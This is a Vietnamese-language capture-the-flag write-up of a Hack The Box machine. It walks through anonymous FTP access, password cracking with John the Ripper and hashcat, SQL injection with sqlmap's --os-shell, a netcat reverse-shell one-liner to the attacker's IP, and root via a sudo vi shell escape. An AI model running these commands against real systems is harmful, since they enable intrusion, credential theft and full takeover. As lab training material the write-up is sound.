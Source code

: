 ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5662756c-ae90-41ca-9fd1-6b2dc4de3824)

- Chạy nmap -sV -T4 quét các dịch vụ chạy trên máy chủ

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/fe21aece-cacf-4e33-9df8-38c1df972a5f)

* Task 1: Besides SSH and HTTP, what other service is hosted on this box?: ftp
- Ta cần thu thập thêm thông tin về dịch vụ chạy lệnh: nmap -sC -T4 "ip"

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5eb0427b-97ac-44d2-8f8d-e39c4445e7db)

- Điều cần chú ý ở đây là FTP: giao thức truyền tệp qua mạng, hoạt động theo mô hình client-server
* Task 2: This service can be configured to allow login with any password for specific username. What is that username?:  Anonymous
- Tiến hành đăng nhập bằng username: anonymous.
- command: ftp anonymous@10.129.95.174

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/1b95ed0e-7c6d-4f93-8c66-33286c1bcc04)

- Sử dụng lệnh ls để liệt kê thư mục, file. Ta thấy có 1 file là backup.zip. Sử dụng lệnh get để tải file xuống
*  Task 3: What is the name of the file downloaded over this service?: backup.zip

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/44b107cc-6c0a-49fc-9483-06bf3f3ab6e1)

- Tiến hành giải nén file, file có mật khẩu. Sử dụng john the ripper để crack mật khẩu.
- Task 4: What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?: zip2john

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/be6c18c3-dfe3-47bd-b66a-46d8aa6b6f24)

- Crack không được, ta dùng wordlist để bẻ khóa (dùng wordlist rockyou.txt)

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/e74ef254-78ba-4728-9eae-54320ebb52d1)

- lấy được password: 741852963
- Tiến hành giải nén file backup được 2 file là index.php và style.css
- Ta quan tâm đến file index.php
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/1a19ce53-dbad-4f3f-ad70-4bb1e0b322d6)

- Thấy được user là admin là mật khẩu là 1 mã hax: dùng tiếp john the ripper để crack.
- Chạy không ra => dùng hashcat 
- hashcat -m 0 -a 0 vaccine2.txt /usr/share/wordlists/rockyou.txt
- trong đó -m là hash mode 0 là md5, -a attack mode  0 | Straight
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/389030fd-416c-4c61-a0bc-badc488057f9)

- Task 5: What is the password for the admin user on the website?: qwerty789
- Đề bài ở đây là thực thi sql injection: sử dụng sql map.
- Tạo 1 file là new.req để lưu request.
- Dùng burpsuite bắt requets copy-> new.req
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/37a107c6-cce8-4340-8167-fcec10e9dc59)

- Sử dụng sqlmap -r new.req --os-shell
- Tham số -r là đọc request từ file new.req, tham số --os-shell để thực thi lệnh shell từ xa. 
- Task 6: What option can be passed to sqlmap to try to get command execution via the sql injection?: --os-shell
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/c4679cf5-719d-4233-920c-2e0217587f6e)

- lệnh shell: (rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.22 1234 >/tmp/f)
+ Sẽ tạo tệp fifo: tệp để truyền dữ liệu giữa các tiến trình: ip 10.10.14.22(ip của máy tấn công: ifconfig, tun0) cổng 1234 
+ Sau khi thực thi lệnh xong.
+ mở terminal chạy netcat để lắng nghe trên cổng 1234 
+ để shell hoạt động trơn tru vip pro hơn: 
      python3 -c 'import pty;pty.spawn("/bin/bash")'
      CTRL+Z
      stty raw -echo
      fg
      export TERM=xterm
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/4691fbcf-a4c7-412e-a7ce-77da3fb87460)

- Cat user.txt ra được flag 1
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/580a4340-46f4-4546-b392-9dc49a411e43)
- Mò được đến thư mục www/html/ thì mở file dashboard.php ra thấy pass của user postgres
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/49499894-6444-4431-82e2-e97c685c28f2)
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/85c4e920-dd0f-403f-9ce4-ea314001fb8b)
- kết nối ssh đến user và pass đã có. 

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/a4ecc9d8-daad-4f01-98c5-4630a8b53d2a)

- Chạy lệnh sudo -l (liệt kê quyền mà user đang có).
- Chạy tiếp lệnh sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
- (https://gtfobins.github.io/gtfobins/vi/#sudo)
- Nhập  :set shell=/bin/sh
        :shell
- Chạy lệnh whoami. Ta đã có quyền root.
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/a4b3f164-04fa-487d-8f01-c91a2f12a502)
- flag: dd6e058e814260bc70e9bbdef2715849

